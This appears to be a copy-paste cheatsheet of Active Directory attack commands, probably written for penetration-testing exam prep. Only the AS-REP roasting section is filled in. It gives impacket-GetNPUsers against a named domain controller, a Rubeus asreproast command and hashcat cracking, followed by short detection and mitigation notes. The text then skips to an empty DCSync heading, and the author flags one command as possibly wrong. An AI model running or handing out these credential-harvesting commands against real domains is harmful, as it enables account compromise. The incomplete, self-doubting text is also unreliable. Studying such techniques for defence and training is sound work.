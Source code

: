 ```yaml
---
title: "AD Cheatsheets — AS-REP / Kerberoast / PtH / PtT / DCSync"
tags: [cheatsheet, AD, kerberoast, asrep, pth, ptt, dcsync]
last_updated: 2025-10-17
---
```


# AD Cheatsheets (quick copy-paste commands)

---
## 1) AS-REP Roasting — quick
**What:** Request AS-REP responses for accounts without pre-auth and crack offline to recover plaintext passwords.  
**Privileges needed:** None (targets must have `DONT_REQUIRE_PREAUTH` set).  
```bash
# OSCP-A live example
impacket-GetNPUsers -dc-host dc01.oscp.exam -dc-ip 10.10.158.140 -usersfile ./loot/oscp_users.txt -request -format hashcat -outputfile asreproast.hash oscp.exam/

# I think this command is wrong, and will be ./invoke-rubeus.ps1
# Invoke-Rubeus -Command "<rubeus_arguments>"
Rubeus.exe asreproast /user:svc_account /domain:corp.local /outfile:asrep.hashes

# Crack with hashcat (example hashcat mode 18200 for AS-REP):
hashcat -m 18200 asrep.hashes /path/to/wordlist.txt
```
**Detection / Mitigation**
- Detect unusual AS-REP requests or many failed crack attempts; monitor Kerberos logs (event id 4768/4771 patterns).
- Mitigate by disabling `DONT_REQUIRE_PREAUTH` on accounts or enforcing strong/long passwords and monitoring for preauth anomalies.





---

## 5) DCSync — quick



